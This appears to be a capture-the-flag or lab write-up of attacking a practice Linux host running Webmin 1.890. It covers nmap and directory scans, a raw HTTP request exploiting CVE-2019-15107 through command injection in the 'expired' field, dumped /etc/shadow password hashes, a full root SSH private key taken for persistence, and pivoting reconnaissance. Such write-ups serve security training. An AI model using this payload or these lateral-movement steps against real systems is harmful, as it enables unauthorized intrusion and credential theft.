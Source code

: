 ```yaml
---
cover: >-
  https://images.unsplash.com/photo-1541728472741-03e45a58cf88?crop=entropy&cs=srgb&fm=jpg&ixid=MnwxOTcwMjR8MHwxfHNlYXJjaHw5fHxoYWNrZXJ8ZW58MHx8fHwxNjQ0OTUxOTI2&ixlib=rb-1.2.1&q=85
coverY: 421.77650429799417
---
```


# 🔰 10.200.81.200 | Linux

## <mark style="color:purple;background-color:green;">\_\_Enumeration\_\_</mark>

<details>

<summary><mark style="color:purple;">NMAP</mark></summary>

```
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 9c:1b:d4:b4:05:4d:88:99:ce:09:1f:c1:15:6a:d4:7e (RSA)
|   256 93:55:b4:d9:8b:70:ae:8e:95:0d:c2:b6:d2:03:89:a4 (ECDSA)
|_  256 f0:61:5a:55:34:9b:b7:b8:3a:46:ca:7d:9f:dc:fa:12 (ED25519)
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-title: Did not follow redirect to https://thomaswreath.thm
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
443/tcp   open   ssl/http   Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-title: Thomas Wreath | Developer
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=thomaswreath.thm/organizationName=Thomas Wreath Development/stateOrProvinceName=East Riding Yorkshire/countryName=GB
| Not valid before: 2022-02-15T11:52:37
|_Not valid after:  2023-02-15T11:52:37
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
|_ssl-date: TLS randomness does not represent time
9090/tcp  closed zeus-admin
10000/tcp open   http       MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.890
```

Known CVE - `MiniServ 1.890 (Webmin httpd)`\
``![](<../../.gitbook/assets/image (13) (1).png>)``

</details>

<details>

<summary><mark style="color:green;">Web Services</mark></summary>

**Technologies**

![](<../../.gitbook/assets/image (6) (1).png>)

**Dirsearch | Gobuster**

```yaml
Target: https://thomaswreath.thm/
[14:40:10] 403 -  217B  - /cgi-bin/            
[14:40:18] 301 -  237B  - /css  ->  https://thomaswreath.thm/css/
[14:40:27] 301 -  239B  - /fonts  ->  https://thomaswreath.thm/fonts/
[14:40:32] 301 -  237B  - /img  ->  https://thomaswreath.thm/img/
[14:40:33] 200 -   15KB - /index.html                                       
[14:40:36] 200 -    1KB - /js/


```

#### Page Screenshots

![](<../../.gitbook/assets/image (2).png>)![](<../../.gitbook/assets/image (9) (1).png>)

</details>

#### :notebook\_with\_decorative\_cover: <mark style="color:blue;">Other Services</mark>

**OSINT** --> \
Phone Number: `01347 822945` \
Mobile Number: `+447821548812` \
Email: `me@thomaswreath.thm`

## <mark style="color:red;background-color:yellow;">\_\_Exploitation\_\_</mark>

## _<mark style="color:orange;">FOOTHOLD</mark>_

### **CVE-2019-15107 Webmin RCE v1.890 (Unauthenticated)**

**Manual exploit**\
****POC used --> [https://github.com/ruthvikvegunta/CVE-2019-15107](https://github.com/ruthvikvegunta/CVE-2019-15107)****\
****Response: \
![](<../../.gitbook/assets/image (11) (1).png>)\
Request:&#x20;

```yaml
POST /password_change.cgi HTTP/1.1
Host: thomaswreath.thm:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: http://thomaswreath.thm:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 17



expired=id

```

{% hint style="info" %}
Use `curl` for faster responses!
{% endhint %}

Can successfully ping my machine and execute most of the commands.\
![](<../../.gitbook/assets/image (3) (1).png>)![](<../../.gitbook/assets/image (1).png>)

### Getting reverse shell

Use this to get a pseudoshell - [https://github.com/MuirlandOracle/CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107)\
then convert to a TTY shell\
![](<../../.gitbook/assets/image (4).png>)![](<../../.gitbook/assets/image (10) (1).png>)\
Stabilize shell to get auto-complete and more\
![](<../../.gitbook/assets/image (5).png>)

### Enumerating the machine for lateral movement

* `/etc/shadow` and `/etc/passwd` _<mark style="color:red;"></mark>_&#x20;

```
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::
twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::

twreath:x:1000:1000:Thomas Wreath:/home/twreath:/bin/bash
unbound:x:991:987:Unbound DNS resolver:/etc/unbound:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
nginx:x:990:986:Nginx web server:/var/lib/nginx:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
```

* Found **mysql** data at `/var/lib/mysql/mysql`
* Found ssh key at `/root/.ssh/id_rsa` --> **ESTABLISH PERSISTENCE**

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs0oHYlnFUHTlbuhePTNoITku4OBH8OxzRN8O3tMrpHqNH3LHaQRE
LgAe9qk9dvQA7pJb9V6vfLc+Vm6XLC1JY9Ljou89Cd4AcTJ9OruYZXTDnX0hW1vO5Do1bS
jkDDIfoprO37/YkDKxPFqdIYW0UkzA60qzkMHy7n3kLhab7gkV65wHdIwI/v8+SKXlVeeg
0+L12BkcSYzVyVUfE6dYxx3BwJSu8PIzLO/XUXXsOGuRRno0dG3XSFdbyiehGQlRIGEMzx
hdhWQRry2HlMe7A5dmW/4ag8o+NOhBqygPlrxFKdQMg6rLf8yoraW4mbY7rA7/TiWBi6jR
fqFzgeL6W0hRAvvQzsPctAK+ZGyGYWXa4qR4VIEWnYnUHjAosPSLn+o8Q6qtNeZUMeVwzK
H9rjFG3tnjfZYvHO66dypaRAF4GfchQusibhJE+vlKnKNpZ3CtgQsdka6oOdu++c1M++Zj
z14DJom9/CWDpvnSjRRVTU1Q7w/1MniSHZMjczIrAAAFiMfOUcXHzlHFAAAAB3NzaC1yc2
EAAAGBALNKB2JZxVB05W7oXj0zaCE5LuDgR/Dsc0TfDt7TK6R6jR9yx2kERC4AHvapPXb0
AO6SW/Ver3y3PlZulywtSWPS46LvPQneAHEyfTq7mGV0w519IVtbzuQ6NW0o5AwyH6Kazt
+/2JAysTxanSGFtFJMwOtKs5DB8u595C4Wm+4JFeucB3SMCP7/Pkil5VXnoNPi9dgZHEmM
1clVHxOnWMcdwcCUrvDyMyzv11F17DhrkUZ6NHRt10hXW8onoRkJUSBhDM8YXYVkEa8th5
THuwOXZlv+GoPKPjToQasoD5a8RSnUDIOqy3/MqK2luJm2O6wO/04lgYuo0X6hc4Hi+ltI
UQL70M7D3LQCvmRshmFl2uKkeFSBFp2J1B4wKLD0i5/qPEOqrTXmVDHlcMyh/a4xRt7Z43
2WLxzuuncqWkQBeBn3IULrIm4SRPr5SpyjaWdwrYELHZGuqDnbvvnNTPvmY89eAyaJvfwl
g6b50o0UVU1NUO8P9TJ4kh2TI3MyKwAAAAMBAAEAAAGAcLPPcn617z6cXxyI6PXgtknI8y
lpb8RjLV7+bQnXvFwhTCyNt7Er3rLKxAldDuKRl2a/kb3EmKRj9lcshmOtZ6fQ2sKC3yoD
oyS23e3A/b3pnZ1kE5bhtkv0+7qhqBz2D/Q6qSJi0zpaeXMIpWL0GGwRNZdOy2dv+4V9o4
8o0/g4JFR/xz6kBQ+UKnzGbjrduXRJUF9wjbePSDFPCL7AquJEwnd0hRfrHYtjEd0L8eeE
egYl5S6LDvmDRM+mkCNvI499+evGwsgh641MlKkJwfV6/iOxBQnGyB9vhGVAKYXbIPjrbJ
r7Rg3UXvwQF1KYBcjaPh1o9fQoQlsNlcLLYTp1gJAzEXK5bC5jrMdrU85BY5UP+wEUYMbz
TNY0be3g7bzoorxjmeM5ujvLkq7IhmpZ9nVXYDSD29+t2JU565CrV4M69qvA9L6ktyta51
bA4Rr/l9f+dfnZMrKuOqpyrfXSSZwnKXz22PLBuXiTxvCRuZBbZAgmwqttph9lsKp5AAAA
wBMyQsq6e7CHlzMFIeeG254QptEXOAJ6igQ4deCgGzTfwhDSm9j7bYczVi1P1+BLH1pDCQ
viAX2kbC4VLQ9PNfiTX+L0vfzETRJbyREI649nuQr70u/9AedZMSuvXOReWlLcPSMR9Hn7
bA70kEokZcE9GvviEHL3Um6tMF9LflbjzNzgxxwXd5g1dil8DTBmWuSBuRTb8VPv14SbbW
HHVCpSU0M82eSOy1tYy1RbOsh9hzg7hOCqc3gqB+sx8bNWOgAAAMEA1pMhxKkqJXXIRZV6
0w9EAU9a94dM/6srBObt3/7Rqkr9sbMOQ3IeSZp59KyHRbZQ1mBZYo+PKVKPE02DBM3yBZ
r2u7j326Y4IntQn3pB3nQQMt91jzbSd51sxitnqQQM8cR8le4UPNA0FN9JbssWGxpQKnnv
m9kI975gZ/vbG0PZ7WvIs2sUrKg++iBZQmYVs+bj5Tf0CyHO7EST414J2I54t9vlDerAcZ
DZwEYbkM7/kXMgDKMIp2cdBMP+VypVAAAAwQDV5v0L5wWZPlzgd54vK8BfN5o5gIuhWOkB
2I2RDhVCoyyFH0T4Oqp1asVrpjwWpOd+0rVDT8I6rzS5/VJ8OOYuoQzumEME9rzNyBSiTw
YlXRN11U6IKYQMTQgXDcZxTx+KFp8WlHV9NE2g3tHwagVTgIzmNA7EPdENzuxsXFwFH9TY
EsDTnTZceDBI6uBFoTQ1nIMnoyAxOSUC+Rb1TBBSwns/r4AJuA/d+cSp5U0jbfoR0R/8by
GbJ7oAQ232an8AAAARcm9vdEB0bS1wcm9kLXNlcnYBAg==
-----END OPENSSH PRIVATE KEY-----
```

## _<mark style="color:red;">PIVOTING</mark>_

* Identify any local DNS servers which maybe misconfigured to allow DNS zone transfer attack: `arp -a` and `/etc/resolv.conf`

```bash
ip-10-200-81-1.eu-west-1.compute.internal (10.200.81.1)

search eu-west-1.compute.internal
nameserver 10.200.0.2
```

* Performing a ping sweep of the network using nmap\
  ![](<../../.gitbook/assets/image (9).png>)
* Port scan every active host (except `.1, .250, .255`)\
  ![](<../../.gitbook/assets/image (3).png>)

{% hint style="info" %}
Rest of the hosts in their individual pages.
{% endhint %}
